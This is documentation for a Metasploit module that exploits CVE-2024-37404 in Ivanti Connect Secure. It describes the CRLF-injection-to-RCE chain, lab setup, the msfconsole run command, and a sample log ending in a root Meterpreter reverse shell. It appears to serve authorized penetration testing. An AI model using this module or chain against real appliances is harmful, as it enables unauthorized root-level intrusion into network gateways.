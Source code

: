 ## Vulnerable Application

This module exploits a CRLF injection vulnerability in Ivanti Connect Secure to
achieve remote code execution (CVE-2024-37404). Versions prior to 22.7R2.1 are
vulnerable. Note that Ivanti Policy Secure versions prior to 22.7R1.1 are also
vulnerable but this module doesn't support this software.

Valid administrative credentials are required. A non-administrative user is also
required and can be created using the administrative account, if needed.

Finally, the `Client Log Upload` feature needs to be enabled. This can also
be done using the administrative interface (see the Installation Steps section
below), if it is not enabled already.

### Process Overview

First, the module will log into the administrative interface and check if the version
is vulnerable. Then, it will connect to the user interface using non-privileged
credentials and upload a log file archive containing the payload. This file is
stored as a known path on the server, which can be retrieved from the
administrative interface. Then, it leverages the CRLF vulnerability by creating
a Certificate Signing Request and passing a specially crafted OpenSSL
configuration. This configuration instructs OpenSSL to use a custom
cryptographic engine, which points to the log file path (our payload). The
payload is immediately executed, giving RCE as the root user on the appliance.

This has been successfully tested against Ivanti Connect Secure version 22.3R1 (build 1647).

### Installation Steps
Get an Ivanti Security Appliance (ISA) or a Virtual Appliances (ISA-V Series)
with a vulnerable Ivanti Connect Secure installed.

Note that it is not possible to download a trial version of a Virtual Appliance
unless you contact sales and request a demo.

Log into to the admin interface (https:/<IP>/admin) to proceed with the following requirements:

#### Create a normal user
- In the `Authentication` menu, select `Auth. Servers`.
- Select the `System Local` `Authentication/Authorization Servers` or any
  server with the type `Local Authentication`. Don't select the
  `Administrators` server since we need a non-administrative account.
- Click on the `Users` tab and then `New`.
- Fill the registration form and click `Save Changes`.

#### Enable Client Log
- Go to `Users` > `User Roles` and click on the `Users` role.
- Go to `General` > `Session Options`.
- Select `Enable Upload Logs` under the `Upload logs` section.
- Click `Save Changes`.


## Verification Steps
1. Start msfconsole
1. Do: `use linux/http/ivanti_connect_secure_rce_cve_2024_37404`
1. Do: `run verbose=true lhost=<local host> rhosts=<remote host> admin_username=<admin username> admin_password=<admin password> username=<normal user> password=<user password>`
1. You should get a Meterpreter session
1. Make sure the admin and the normal user have been logged out by logging in
   the web interfaces with a web browser (you should have any warning saying a
   session is already active)
1. Make sure the cleanup has been done correctly by checking `System` > `Log/Monitoring`


## Options

### ADMIN_USERNAME
Administrative username to authenticate with.

### ADMIN_PASSWORD
Administrator password to authenticate with.

### USERNAME
Normal user username to authenticate with.

### PASSWORD
Normal user password to authenticate with.


## Scenarios

### Ivanti Connect Secure version 22.3R1 (build 1647)

```
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_37404) > run verbose=true lhost=192.168.211.69 rhosts=192.168.211.200 admin_username=msfadmin admin_password=1234567890 username=msfuser password=1234567890

[*] Started reverse TCP handler on 192.168.211.69:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Login to the administrative interface with username 'msfadmin' and password '1234567890'...
[!] The admin msfadmin is already logged in
[*] Getting the version...
[+] Found version 22.3R1 (build 1647)
[+] The target appears to be vulnerable.
[*] Uploading the payload...
[*] Login to the user interface with username 'msfuser' and password '1234567890'...
[*] Uploading the log file...
[*] Logging the user out...
[*] Getting the log file name...
[*] Triggering the payload...
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (1017704 bytes) to 192.168.211.200
[*] Cleaning up...
[*] Deleting the log file (payload)...
[*] Logging the administrator out...
[*] Meterpreter session 3 opened (192.168.211.69:4444 -> 192.168.211.200:50210) at 2024-10-29 16:43:35 +0100

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.211.200
OS           :  (Linux 4.15.18.34-production)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
